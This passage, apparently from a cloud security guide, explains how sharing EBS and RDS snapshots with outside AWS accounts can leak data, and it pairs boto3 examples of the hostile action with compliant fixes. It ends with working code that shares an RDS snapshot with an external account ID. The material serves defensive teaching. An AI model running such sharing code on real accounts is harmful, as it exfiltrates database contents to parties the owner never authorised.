 
The noncompliant code uses the AWS SDK (boto3) to modify the create volume permissions of an EBS snapshot and share it with an external AWS account specified by account_id. This code is noncompliant because it allows unauthorized access to the snapshot, potentially enabling an attacker to create new volumes and access the data stored within the shared snapshot.

Compliant Code:
The compliant code demonstrates how to properly secure EBS snapshots and prevent unauthorized sharing.



```
import boto3

# Create an EC2 client
ec2_client = boto3.client('ec2')

# Define the snapshot ID
snapshot_id = 'snap-01234567890abcdef'

# Revoke public sharing permissions from the snapshot
ec2_client.reset_snapshot_attribute(
    SnapshotId=snapshot_id,
    Attribute='createVolumePermission'
)
```

The compliant code revokes any public sharing permissions from the EBS snapshot specified by snapshot_id by resetting the snapshot attribute. This ensures that the snapshot is not accessible to any AWS account other than the one that owns it. By restricting the sharing of EBS snapshots to trusted and authorized accounts only, the risk of unauthorized access and exfiltration is mitigated.




## Exfiltrate RDS Snapshot by Sharing


Exfiltrating an RDS snapshot by sharing it involves sharing a database snapshot from Amazon RDS with an external AWS account. This technique allows the recipient account to restore the snapshot and gain access to the database data contained within it.

Noncompliant Code:
The noncompliant code demonstrates how an attacker can use the AWS SDK to share an RDS snapshot with an external AWS account.

```
import boto3

# Create an RDS client
rds_client = boto3.client('rds')

# Define the snapshot identifier
snapshot_identifier = 'my-db-snapshot'

# Define the AWS account ID to share with
account_id = '012345678901'

# Share the RDS snapshot with the external AWS account
rds_client.modify_db_snapshot_attribute(
    DBSnapshotIdentifier=snapshot_identifier,
    AttributeName='restore',
    ValuesToAdd=[account_id]
)
```
